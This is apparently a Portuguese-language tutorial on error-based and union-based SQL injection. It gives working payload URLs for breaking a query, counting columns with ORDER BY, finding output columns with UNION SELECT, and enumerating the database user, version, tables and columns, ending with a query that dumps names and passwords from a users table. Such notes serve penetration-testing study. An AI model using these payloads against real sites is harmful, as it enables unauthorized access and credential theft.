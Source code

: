 SQLi Error based se refere ao casos onde vamos utilizar as mensagens de erro para extrair informações sensíveis do banco de dados. 

### Step 1 Quebrar a consulta

Vamos utilizar aspas para tentar causar um erro na consulta esperada, depois vamos analisar se alguma resposta diferente foi retornada. 
```
http://exemplo.com/?search=1'
http://exemplo.com/?search=-1' #para descobrir qual banco de dados
```
Depois vamos tentar entender qual tipo de consulta está sendo feita ao banco de dados.
Exemplo a aplicação retorna o erro “syntax to use near ‘asd%’ or description LIKE ‘%’ asd%” por ela retornar o erro com ‘LIKE’ e ‘%’ podemos deduzir que a consulta é por um item que tenha uma palavra especifica em qualquer lugar do dado:
```
select tabela from user where user='Carlos'
```


### Step 2 Procurando número de colunas

Para enumerar colunas podemos usar o ```order by``` vamos aumentar o numero de colunas até que um erro seja retornado.
```
http://exemplo.com/?id=1' order by 1-- -
http://exemplo.com/?id=1' order by 9-- - 

```
Erros nessa consulta podem acontecer como um WAF dropando nossa requisição ou a syntax não está correta

### Step 3 Buscar por output

Agora depois de saber o numero de colunas precisamos descobrir quais delas estão sendo retornadas na aplicação para continuar com a exploração. Para encontrar quais colunas são retornadas vamos usar o `union select`.
```
http://exemplo.com/?search=1 union select 1,2,3,4,5,6,7,8,9
```
A consulta vai retornar o número das colunas que trazem o output

### Step 4 Iniciar enumeração

Depois de descobrir onde o output da consulta vai ser retornado vamos iniciar a extração de dados do banco de dados.
```
# Get username of the sql-user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a only servers to create a delimitor between name and password

http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,
password),6,7,8,9 FROM users
```
